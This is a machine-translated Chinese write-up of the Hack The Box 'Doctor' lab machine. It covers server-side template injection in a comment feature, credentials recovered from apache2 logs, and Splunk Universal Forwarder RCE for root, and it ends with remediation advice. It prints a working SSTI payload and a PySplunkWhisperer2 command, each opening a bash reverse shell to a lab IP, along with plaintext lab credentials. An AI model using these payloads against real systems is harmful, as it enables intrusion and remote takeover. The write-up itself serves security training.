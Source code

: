 # HTB 医生[报道]

> 原文：<https://infosecwriteups.com/htb-doctor-writeup-61e589400875?source=collection_archive---------0----------------------->

## 服务器端模板注入| Splunk 用友 RCE

# 摘要

该计算机正在端口 80 上运行 web 应用程序，该应用程序易受服务器端模板注入(SSTI)的攻击。该攻击可用于直接攻击内部 web 服务器，从而导致 RCE 攻击。

这台机器上运行的 web 应用程序正在使用 **Twig(PHP)** 模板在网页和电子邮件中嵌入动态内容。使用该 web 应用程序，**用户**可以在自己注册到该系统后**发表评论**。由于在用户输入数据时没有**没有** **净化** **检查**，因此极易受到 SSTI 攻击。

对于权限提升，在枚举过程中发现，只需利用 splunk 通用转发器 RCE 漏洞就可以获得根权限。请记住，此计算机正在端口 8089 上运行 Splunk Atom Feed: Splunkd Rest API。

**计算平台:** Ubuntu

**使用的工具:**

*   **枚举** — `nmap` | `gobuster` | `dirsearch.py`
*   **Linux 盒子枚举**——`linpeas.sh`|`ps -aux`|`/etc/passwd`
*   **漏洞利用** —自定义代码|[pysplunkwhisper 2](https://github.com/DaniloCaruso/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)

**CVE(美国)**

**关键词:** Linux |服务器:werkzeug/1 . 0 . 1 python 3 . 8 . 2 | splunkd 8 . 0 . 5 | Apache/2 . 4 . 41(Ubuntu)服务器| REST API | SSTI

# 列举

Nmap TCP 扫描输出

![](img/6131302a5bc198059abfaabeebcda1ea.png)

# 据点

*** * * * * * * *端口 80 HTTP**Apache httpd 2 . 4 . 41(Ubuntu)*** * * * * * * * * * * * * * * ***

对于这台机器，至少我们知道这个网站很容易受到某种注射。经过一番侦察，登录入口被找到了。

![](img/b8e40312eb71e8076e0bb070bc1e9f1a.png)

[http://10 . 10 . 10 . 209/departments . html #](http://10.10.10.209/departments.html#)

![](img/9e1b2a4cd4fc479a46e4ab213381685c.png)

在这里我注册了自己，在那里我可以发表评论。现在，这是可以执行注入攻击的地方。

运行不同的基本注入代码并检查它们的输出。对于这个站点，源代码没有泄漏任何输出。

在 gobuster 扫描期间，名为**归档文件**的目录是一个空白页。

![](img/e206328d527b82cc420e48387b52bcaf.png)

发现在这个链接上看到了注入代码输出，源代码【http://doctors.htb/archive[的](http://doctors.htb/archive)起作用了！

## **剥削 SSTI**

**步骤 1** —注入以下代码，用于服务器端模板注入

![](img/05091c941c2d0e2610871ec13283a5ae.png)

**步骤 2** —访问[http://doctors.htb/archive](http://doctors.htb/archive)源代码，其中输出是注入代码的结果。

![](img/714d5024bb3f5d88057376ddd9423fb9.png)

既然模板注入已经确定，我们就可以滥用它来获得反向壳。

*** * * * * * * *端口 8089 SSL/HTTP**Splunkd httpd*** * * * * * * * * * * * * * * * * * * * * * * * * ***

在这一阶段，以下网站没有用，因为它需要用户登录才能访问**服务。**

> 由于服务在端口 8089 上使用了 **ssl/http** ，因此 URL 应该是:[**https://10 . 10 . 10 . 209:8089**](https://10.10.10.209:8089)

![](img/a49db0badc0eac8a054dc57f02188a0c.png)

# 反向外壳

按照上面显示的攻击步骤，我使用了下面的 SSTI 漏洞利用代码来生成一个反向外壳。

`{% for x in ().__class__.__base__.__subclasses__() %}{% if “warning” in x.__name__ %}{{x()._module.__builtins__[‘__import__’](‘os’).popen(“bash -c ‘bash -i >& /dev/tcp/10.10.14.14/1234 0>&1’”).read()}}{%endif%}{%endfor%}`

![](img/b83ee4b632680a1b830fb6526f734228.png)

这之后必须刷新页面:[http://doctors.htb/archive](http://doctors.htb/archive)获取外壳

![](img/dfa3973d2f2fbbcf927372e8f11c40f7.png)

# 横向运动

分析了`linpeas.sh`的输出，我最终在 apache2 日志中发现了用户名和密码。

![](img/d495467424545118a264b4b74e7ea710.png)![](img/ba85ee93f868d86038147ea73920cc97.png)

成功了！！！

> **注意:**使用同样的凭证，我们也可以登录到 https://doctor.htb:8089/services

![](img/3b838400097eb395d5096172b8e428e6.png)![](img/a677beb59a6f486a18eee162aee7c720.png)

# 权限提升

分析了`linpeas.sh`,我强调了下面的输出:(尽管一些基本的检查也会有所帮助)

![](img/f785083b301910faf93c90a0386e7a81.png)![](img/1ac63d09c9056933c68b1b50a8173b35.png)![](img/8044d99589344e7cd28205eafb426824.png)

发现[漏洞利用](https://github.com/DaniloCaruso/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)脚本在 Linux 上为 Splunk 通用转发器运行远程代码执行(RCE)。

`python pySplunkWhisperer2_remote.py --lhost 10.10.14.28 --host 10.10.10.209 --username shaun --password Guitar123 --payload “/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.28/8898 0>&1’”`

![](img/3817aa3757acf4e738c254012e1c006c.png)![](img/a19562d655262369df33592869b430d3.png)

**成功！！！**

![](img/f57d340ad1cfd7c33ce881500edeee36.png)

# 补救

*   净化 SSTI，在处理用户输入时删除不需要的和危险的字符。
*   Splunk UF 应该以尽可能低的权限运行。
*   更改用友密码。
*   禁用 Splunk UF 管理端口(8089)